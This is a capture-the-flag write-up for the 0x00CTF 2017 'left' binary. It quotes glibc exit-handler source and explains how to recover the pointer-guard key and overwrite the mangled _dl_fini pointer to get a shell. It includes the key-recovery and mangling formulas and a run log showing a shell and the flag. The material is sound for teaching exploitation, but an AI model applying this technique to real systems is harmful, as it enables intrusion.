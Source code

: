 #left - 0x00CTF 2017

First at all execute `file` command on the binary (the libc is already provided by the organizers of the CTF)
```bash
$ file guessme
guessme: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=92b1d84ee22b7c92dc80fac971bdc7f6cd0e3672, stripped
```

And [checksec](https://github.com/slimm609/checksec.sh)
```bash
$ ./checksec --file ../pwning/0x00CTF/left/left
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	FORTIFY	Fortified Fortifiable  FILE
Full RELRO      No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   No	0		2	../pwning/0x00CTF/left/left
```

This was a 250 pts pwnable challange, the hardest of the competition. Unfortunately i solved this challenge only two hours later the end of the competition. The challange was funny, in a nutshell:
1. The binary prints the address of `printf` function
2. We can leak 8 bytes from any memory location
3. We can write 8 bytes wherever we want
4. The binary calls `exit`.

![image](binary.png)

I tried really a lot of exploits: 
1. overwrite an entry in the got. Nope, full RELRO :P
2. use the `atexit` pointers. Nope, read only
3. use the `__free_hook` pointers. The `exit` function in certain cases calls the `free`, so i tried for few hours to follow this strategy but without success. 

I was becoming crazy, but with my teammate @[ret2libc](https://github.com/ret2libc) we had a look at the libc code and found another way to exploit it. And i'll try to explain now what happened. 

The `exit` function calls `__run_exit_handlers` function, and this is its implementation

```C
/* Call all functions registered with `atexit' and `on_exit',
   in the reverse of the order in which they were registered
   perform stdio cleanup, and terminate program execution with STATUS.  */
void
attribute_hidden
__run_exit_handlers (int status, struct exit_function_list **listp,
		     bool run_list_atexit)
{
  /* First, call the TLS destructors.  */
#ifndef SHARED
  if (&__call_tls_dtors != NULL)
#endif
    __call_tls_dtors ();

  /* We do it this way to handle recursive calls to exit () made by
     the functions registered with `atexit' and `on_exit'. We call
     everyone on the list and use the status value in the last
     exit (). */
  while (*listp != NULL)
    {
      struct exit_function_list *cur = *listp;

      while (cur->idx > 0)
	{
	  const struct exit_function *const f =
	    &cur->fns[--cur->idx];
	  switch (f->flavor)
	    {
	      void (*atfct) (void);
	      void (*onfct) (int status, void *arg);
	      void (*cxafct) (void *arg, int status);

	    case ef_free:
	    case ef_us:
	      break;
	    case ef_on:
	      onfct = f->func.on.fn;
#ifdef PTR_DEMANGLE
	      PTR_DEMANGLE (onfct);
#endif
	      onfct (status, f->func.on.arg);
	      break;
	    case ef_at:
	      atfct = f->func.at;
#ifdef PTR_DEMANGLE
	      PTR_DEMANGLE (atfct);
#endif
	      atfct ();
	      break;
	    case ef_cxa:
	      cxafct = f->func.cxa.fn;
#ifdef PTR_DEMANGLE
	      PTR_DEMANGLE (cxafct);
#endif
	      cxafct (f->func.cxa.arg, status);
	      break;
	    }
	}

      *listp = cur->next;
      if (*listp != NULL)
	/* Don't free the last element in the chain, this is the statically
	   allocate element.  */
	free (cur);
    }

  if (run_list_atexit)
    RUN_HOOK (__libc_atexit, ());

  _exit (status);
}
```

A parameter of the `__run_exit_handlers` is a `struct exit_function_list **listp`. The libc initializes a static struct `initial` 

```C
static struct exit_function_list initial;
struct exit_function_list *__exit_funcs = &initial;
```

then the libc uses these two functions to add an internal `atexit` function to be called when the program ends

```C
int
attribute_hidden
__internal_atexit (void (*func) (void *), void *arg, void *d,
		   struct exit_function_list **listp)
{
  struct exit_function *new = __new_exitfn (listp);

  if (new == NULL)
    return -1;

#ifdef PTR_MANGLE
  PTR_MANGLE (func);
#endif
  new->func.cxa.fn = (void (*) (void *, int)) func;
  new->func.cxa.arg = arg;
  new->func.cxa.dso_handle = d;
  atomic_write_barrier ();
  new->flavor = ef_cxa;
  return 0;
}

int
__cxa_atexit (void (*func) (void *), void *arg, void *d)
{
  return __internal_atexit (func, arg, d, &__exit_funcs);
}
libc_hidden_def (__cxa_atexit)
```
The static struct `__exit_funcs` (i.e. `initial`) is extremely important, because if we can write an address of a function to be called here we would win :)
Note that the pointer added to the list is encrypted using a `ror` and `xor` with a random key. The value is then decrypted at run time.
This is the implementation of `PTR_MANGLE` and `PTR_DEMANGLE`

```C
# ifdef __ASSEMBLER__
#  define PTR_MANGLE(reg)	xorl %gs:POINTER_GUARD, reg;		      \
				roll $9, reg
#  define PTR_DEMANGLE(reg)	rorl $9, reg;				      \
				xorl %gs:POINTER_GUARD, reg
# else
#  define PTR_MANGLE(var)	asm ("xorl %%gs:%c2, %0\n"		      \
				     "roll $9, %0"			      \
				     : "=r" (var)			      \
				     : "0" (var),			      \
				       "i" (offsetof (tcbhead_t,	      \
						      pointer_guard)))
#  define PTR_DEMANGLE(var)	asm ("rorl $9, %0\n"			      \
				     "xorl %%gs:%c2, %0"		      \
				     : "=r" (var)			      \
				     : "0" (var),			      \
				       "i" (offsetof (tcbhead_t,	      \
						      pointer_guard)))
# endif
```

Now have a look at the `exit` implementation

```C

void
exit (int status)
{
  __run_exit_handlers (status, &__exit_funcs, true);
}
libc_hidden_def (exit)
```

It uses `&__exit_funcs`, i.e `&initial`! In the file `libc-start.c` you can figure out that it uses the function `__cxa_atexit` to add a function: `_dl_fini`: 

```C
/* Register the destructor of the dynamic linker if there is any.  */
  if (__glibc_likely (rtld_fini != NULL))
    __cxa_atexit ((void (*) (void *)) rtld_fini, NULL, NULL);

#ifndef SHARED
  /* Call the initializer of the libc.  This is only needed here if we
     are compiling for the static library in which case we haven't
     run the constructors in `_dl_start_user'.  */
  __libc_init_first (argc, argv, __environ);

  /* Register the destructor of the program, if any.  */
  if (fini)
    __cxa_atexit ((void (*) (void *)) fini, NULL, NULL);
``` 

What we can do is: 
1. We have the leak of the libc location. We can find the address of the magic gadget, the address of `initial` structure and everithing we need
2. leak the value of the encrypted pointer `_dl_fini_enc`
3. get the secret key (working with 64 bits) with  `rol(_dl_fini_enc, 0x11) ^ _dl_fini_address`.
4. overwrite the pointer `_dl_fini_enc` with the encrypted magic gadget address calculated with `rol((magic_addr) ^ (key), 0x11, 64 )`
5. WIN!

```bash
$ python exploit.py 159.203.116.12 7777
[+] libc address: 0x7fa70c2f0000
[+] key: 0xab85f3272361ce8eL
[+] writing at: 0x7fa70c6b5c58
[+] write value: 0x19005ea539c9570bL
[+] interactive

id
uid=1000(left) gid=1000(left) groups=1000(left)
cat /home/left/flag.txt
0x00CTF{exPL0it1ng__EXit_FUNkz_LikE_4b0sZ!}
```

Find the binary [here](left) (and the related [libc](libc-2.23.so)), the full exploit [here](exploit.py)! I really enjoyed this challenge! 
